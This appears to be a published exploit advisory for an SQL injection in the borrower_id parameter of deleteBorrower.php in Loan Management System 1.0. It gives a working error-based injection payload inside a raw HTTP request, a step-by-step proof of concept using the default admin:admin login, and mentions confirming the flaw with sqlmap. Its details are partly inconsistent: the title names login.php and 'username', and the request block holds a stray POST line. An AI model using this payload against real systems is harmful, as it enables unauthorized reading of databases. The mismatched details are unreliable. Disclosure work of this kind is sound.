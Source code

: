 

# Loan Management System - deleteBorrower.php 'borrower_id' SQL inject

#### Exploit Title: Loan Management System - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Software Link:https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Loan Management System does not filter the content correctly at the "deleteBorrower.php/borrower_id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
GET /deleteBorrower.php?borrower_id=1'%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp HTTP/1.1
Host: 192.168.67.11:8091
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.11:8091/borrower.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bes3u5nf3elraj4jtmpnaoac0n
Connection: close
```

#### Proof of Concept

1、Log in to the system using the default password admin: admin

2、Add a piece of data on the Borrower page

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/browsersql1.png)

3、Click 'delete' and grab the package, locate the file as' deleteBrower.php '.Looking at the source code, it is found that the borrower_id field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/browsersql2.png)

4、We can construct SQL statements to query the name of the database

payload:`http://xxxx/deleteBorrower.php?borrower_id=1'%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp`

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/browsersql3.png)

5、Testing using the sqlmap tool can also detect SQL injection vulnerabilities

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/browsersql4.png)
